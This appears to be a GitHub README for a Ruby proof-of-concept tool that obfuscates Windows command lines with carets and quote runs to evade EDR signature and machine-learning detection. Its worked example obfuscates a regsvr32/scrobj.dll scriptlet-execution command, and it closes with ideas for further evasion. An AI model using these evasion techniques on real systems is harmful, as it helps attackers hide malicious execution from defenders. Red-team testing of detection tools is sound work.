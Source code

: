 # cmdobfuscator

This project was developed in order to test potential bypasses of EDR solutions using native windows cmd line bypassing techniques. The aim was to understand the scope available and develop a quick poc to see if it was able to bypass and defensive solutions which apply machine-learning/signaute analysis to cmd line arguments. 


Example usage:

wjb@mistakenot:~/Documents/test$ ruby ./cmdobfuscator.rb 'regsvr32 /s /n /u /i:test.sct scrobj.dll'
   _____ __  __ _____     ____  _      __                     _             
  / ____|  \/  |  __ \   / __ \| |    / _|                   | |            
 | |    | \  / | |  | | | |  | | |__ | |_ _   _ ___  ___ __ _| |_ ___  _ __ 
 | |    | |\/| | |  | | | |  | | '_ \|  _| | | / __|/ __/ _` | __/ _ \| '__|
 | |____| |  | | |__| | | |__| | |_) | | | |_| \__ \ (__ (_| | |_ (_) | |   
  \_____|_|  |_|_____/   \____/|_.__/|_|  \__,_|___/\___\__,_|\__\___/|_|   
                                                                            
                                                                            
[+] Parsing tokens in cmd...
[+] Token being obfuscated: regsvr32
[+] Obfuscating Token....
[+] Token being obfuscated: /s
[+] Obfuscating Token....
[+] Token being obfuscated: /n
[+] Obfuscating Token....
[+] Token being obfuscated: /u
[+] Obfuscating Token....
[+] Token being obfuscated: /i:test.sct
[+] Obfuscating Token....
[+] Token being obfuscated: scrobj.dll
[+] Obfuscating Token....

Final obfuscated output: r"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""e"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""g"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""s""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""v""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""r""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""3"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""2 /s /n /u /i^:^t^e^s^t^.^s^c^t s^c^r^o^b^j^.^d^l^l


NB: Windows parsing of cmd line arguments is a bit inconsistent and different programs parse certain characters (i.e. ") differently. As a result this poc aims to focus on applying a technique which worked for the majority of cases. This will still break some things though, for example the parsing method used for first argument will not work with 'dir'. Registry keys may also break.

Thoughts for additional changes:
-parse ip's and change them into hex representation for people watching for ping -n 1 x.x.x.x' with reg ex
-chain common programs to together first to attempt to bypass ML style token techniques.
